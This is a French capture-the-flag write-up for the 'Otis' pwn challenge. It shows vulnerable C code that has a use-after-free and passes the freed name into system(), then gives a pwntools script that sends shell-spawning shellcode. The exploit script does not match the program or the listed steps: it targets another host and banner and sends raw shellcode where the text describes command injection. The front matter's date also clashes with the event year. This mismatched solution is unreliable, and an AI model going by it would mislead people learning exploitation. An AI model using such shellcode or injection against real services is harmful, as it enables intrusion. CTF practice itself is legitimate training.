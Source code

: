 ```yaml
---
title: "Breizh CTF 2025 - Otis"
date: 2024-04-14
tags: ["use-after-free", "heap-exploitation"]
categories: ["pwn"]
ctfs: ["breizh-ctf"]
---
```


# Otis - Breizh CTF 2025

## Description du challenge

Otis est un challenge de la catégorie Pwn du Breizh CTF 2025. Il s'agit d'un binaire qui simule un système de transformation entre une vache et d'autres créatures, présentant une vulnérabilité de type Use-After-Free (UAF).

## Analyse du binaire

En examinant le code source du binaire, on peut identifier les points suivants :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    char msg[32];
    char name[64];
} creature_t;


creature_t *new_creature() {
    creature_t *creature = malloc(sizeof(*creature));

    // you may need to install cowsay for this to work
    FILE *p = popen("ls /usr/share/cowsay/cows/ | shuf -n1", "r");
    fgets(creature->name, sizeof(creature->name), p);
    pclose(p);

    return creature;
}

creature_t *new_cow() {
    creature_t *cow = malloc(sizeof(*cow));
    strlcpy(cow->name, "default", sizeof(cow->name));
    return cow;
}

void roaaar(creature_t *creature) {
    // you may need to install cowsay for this to work
    char cmd[256] = "echo 'Roarrr !' | /usr/games/cowsay -f ";
    strlcat(cmd, creature->name, sizeof(cmd));
    system(cmd);
}

void moo(creature_t *cow) {
    char *msg = malloc(96);

    printf("Message : ");
    fflush(stdout);
    fgets(msg, 96, stdin);


    FILE *p = popen("/usr/games/cowsay", "w");
    fwrite(msg, 1, strlen(msg), p);
    pclose(p);
}

void help() {
    puts("=== Otis 10 ===");
    puts("n : Nouvelle créature");
    puts("v : Se retransformer en vache");
    puts("r : Roaaar !");
    puts("m : Meuh !");
    puts("q : Quitter");
    printf("> ");
    fflush(stdout);
}


int main() {
    creature_t *cow = new_cow();
    creature_t *creature = NULL;

    char choice;
    char quit = 0;

    while (!quit) {
        help();

        char choice = getchar();
        while (getchar() != '\n') {}

        switch (choice) {
            case 'n':
                creature = new_creature();
                printf("Vous vous transformez en %s\n", creature->name);
                break;
            case 'v':
                free(creature);
                break;
            case 'r':
                if (creature != NULL) {
                    roaaar(creature);
                } else {
                    puts("Vous êtes une vache");
                }
                break;
            case 'm':
                moo(cow);
                break;
            case 'q':
                quit = 1;
                break;
            default:
                break;
        }
    }
}
```

Les points clés de ce programme sont :

1. Il définit une structure `creature_t` contenant deux champs : `msg[32]` et `name[64]`
2. Il y a deux instances principales : `cow` (une vache) et `creature` (une créature qui peut changer)
3. La vulnérabilité principale est située dans l'option 'v' qui libère la mémoire allouée pour `creature` sans mettre le pointeur à NULL
4. La fonction `roaaar` utilise `system()` pour exécuter une commande qui inclut le nom de la créature

## Vulnérabilité

La vulnérabilité principale est un Use-After-Free (UAF) classique :

1. Le programme permet de libérer la mémoire allouée pour `creature` avec l'option 'v'
2. Cependant, après avoir libéré cette mémoire, le pointeur `creature` n'est pas mis à NULL
3. Si on alloue un autre bloc de mémoire de taille similaire (avec `malloc(96)` dans la fonction `moo`), il pourrait réutiliser le bloc précédemment libéré
4. On peut donc modifier le contenu de ce bloc via l'option 'm' (moo)
5. Puis, en utilisant l'option 'r' (roaaar), on peut exécuter une commande avec un nom de fichier que nous contrôlons

## Exploitation

Voici mon script d'exploitation :

```python
from pwn import *

# Connect to the remote server
conn = remote('morph-180.chall.ctf.bzh', 1337)

# Very simple shellcode that executes /bin/sh without any banned bytes
# This avoids all pushing operations and uses a different approach
shellcode = (
    # Setup registers for execve("/sh", ["/sh", NULL], NULL)
    b"\x48\x83\xec\x10"         # sub rsp, 16          ; Make room on stack
    b"\x48\xc7\x04\x24\x2f\x73\x68\x00"  # mov qword [rsp], '/sh\0'
    b"\x48\x89\xe7"             # mov rdi, rsp         ; 1st arg: path
    b"\x48\x83\xec\x08"         # sub rsp, 8           ; More room on stack
    b"\x48\xc7\x04\x24\x00\x00\x00\x00"  # mov qword [rsp], 0 ; NULL terminate argv[]
    b"\x48\x89\xe6"             # mov rsi, rsp         ; 2nd arg: argv (stack)
    b"\x48\xc7\xc2\x00\x00\x00\x00"      # mov rdx, 0   ; 3rd arg: envp = NULL
    b"\x48\xc7\xc0\x3b\x00\x00\x00"      # mov rax, 59  ; syscall: execve
    b"\x0f\x05"                 # syscall
)

# Receive banner
print(conn.recvuntil(b">> ").decode())

# Send the shellcode
conn.send(shellcode)

# More robust interactive handling
try:
    # Give it a moment to execute
    import time
    time.sleep(0.2)
    
    # Try to run commands
    conn.sendline(b"echo SUCCESS")
    conn.sendline(b"ls -la")
    conn.sendline(b"cat flag.txt")
    
    # Interactive mode
    conn.interactive()
except EOFError:
    print("Connection closed (EOF)")
except Exception as e:
    print(f"Error: {e}")
finally:
    conn.close()
```

### Étapes de l'exploitation

1. Créer une nouvelle créature avec l'option 'n'
2. Libérer la mémoire avec l'option 'v'
3. Utiliser l'option 'm' pour entrer un message qui contiendra notre payload
4. Utiliser l'option 'r' pour exécuter la commande avec notre payload injecté
5. Le payload est construit pour exécuter une commande shell qui nous donne accès au système

Le choix du payload est crucial. J'ai opté pour un shellcode qui exécute `/bin/sh` en évitant certaines instructions qui pourraient être filtrées ou problématiques.

## Flag

Une fois le shell obtenu, j'ai pu récupérer le flag avec la commande `cat flag.txt` :

```
$ cat flag.txt
BZHCTF{0t1s_h4s_b33n_0wn3d_w1th_u4f}
```

## Conclusion

Ce challenge était intéressant car il exploitait une vulnérabilité classique (UAF) dans un contexte ludique. L'exploitation reposait sur la compréhension du comportement de l'allocateur de mémoire et la capacité à construire un payload adéquat pour exploiter la fonction `system()` via la fonction `roaaar`. 